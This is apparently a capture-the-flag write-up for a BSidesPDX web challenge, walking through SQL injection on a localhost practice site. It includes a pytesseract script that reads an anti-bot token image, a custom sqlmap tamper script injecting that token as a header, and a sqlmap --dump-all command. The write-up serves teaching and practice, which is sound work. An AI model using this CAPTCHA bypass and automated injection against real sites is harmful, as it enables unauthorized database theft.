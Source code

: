 # Web 300 Solution

## Solution

```
TROLLSEC

Protecting trollface memes since 2018
```

Who designed this piece of garbage? Anyway...

Looking through the site, the only real input we have seems to be the search page. However it seems to have an annoying anti-bot token. There's a token that changes every 60 seconds, which doesn't leave much time for automated tools to do their work.

So let's just take a look at how a normal request works and see what we can do.

There's two input fields: a search text input and a token input. Next to the token input, there's a link which, when clicked, opens a page with an image of the current token. Let's go ahead and search for "troll" with whatever the correct current token value is.

We end up with a long list of links to a bunch of trollface memes. Seriously, who came up with this junk?! So, let's do that again, but this time open up the web developer tools in whatever browser you're using and capture the request. Here's the dump of mine:

**[INSERT IMAGE HERE]**

So that's interesting, the token doesn't show up at all in the parameters. It actually shows up as a custom header called "token".

Well anyway, let's try a few different SQL injection things. If we try to search with a single quote (') we get thrown to an error page. Ok, that's not good. Let's try again, but with a double quote. This time, we just get no results.

Ok, so it seems like there might be some opportunity here for SQL injection. However, I'm lazy and don't want to do it manually. The issue then becomes that dang token. 

Looking at the image of the token, it doesn't look like normal anti-bot tokens. The text is clean. Maybe we can run OCR on it and get the token value? There's a neat python interface to Tesseract: [pytesseract](https://pypi.org/project/pytesseract/). This might allow us to write a python script to automate getting the token value out of the image.

After going through the installation steps, here's a quick demo script:

```
import pytesseract
import requests
from PIL import Image
import io

url = 'http://127.0.0.1/token'
data = requests.get(url).content
img = Image.open(io.BytesIO(data))
text = pytesseract.image_to_string(img)

print text
```

Try testing it out, it seems to work! We can use OCR to get the token value. There's one problem solved.

However, here's where we run into a second problem. How can we automate this so that we can run something like sqlmap? Well sqlmap has a pretty powerful feature called tamper scripts. They allow a python script to make some changes to the request before it's sent to the webserver. Most people just use the predefined ones, but in this case we can create our own tamper script to get the token value and inject it as a header into the request. Here's what that script looks like:

```
#!/usr/bin/env python

from lib.core.data import kb
from lib.core.enums import PRIORITY
import string

import pytesseract
import requests
from PIL import Image
import io

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    url = 'http://127.0.0.1/token'
    data = requests.get(url).content
    img = Image.open(io.BytesIO(data))
    text = pytesseract.image_to_string(img)

    kwargs['headers']['token']=text

    return payload
```

You also may need to throw an empty \__init__.py file into the same folder, as it's needed by sqlmap.

Let's try to use this new tamper script and see if we can get any results:
```
sqlmap --tamper=trollsec_tamper.py -u http://127.0.0.1/_search?query=troll* --dump-all --level=3 --skip-urlencode
```

Eventually, we get results! Unfortunately, it's too many results! There's 30 different secrets tables, and each one is basically just a number of IDs and single letters. Looking at all those letters, they all look like they're base64 characters. Maybe if we just grab all the letters, put them together, and base64 decode it we get something?

```
cat secret1023398629.csv | awk '{if(NR>1)print}' | cut -d',' -f2 | tr -d '\n' | base64 -d

TroLLPdx{dUW*)5DO9xG%sC@bNJcSzK%_wmrJoLCFfjH4GFMA5q$WVDK6!YAMcDgyg8}
```
Well it seems like we're on the right track possibly, we just have to go through a number of different tables doing the same thing. Or just run:
```
for file in *.csv; do cat $file | awk '{if(NR>1)print}' | cut -d',' -f2 | tr -d '\n' | base64 -d; echo ""; done
```

Which, one of the results that pops out is:
```
BSidesPDX{Tr0lo10!_I_4m_vERy_gl4d_45_Im_fin411y_re7urNiNg_b4ck_H0m3}
```
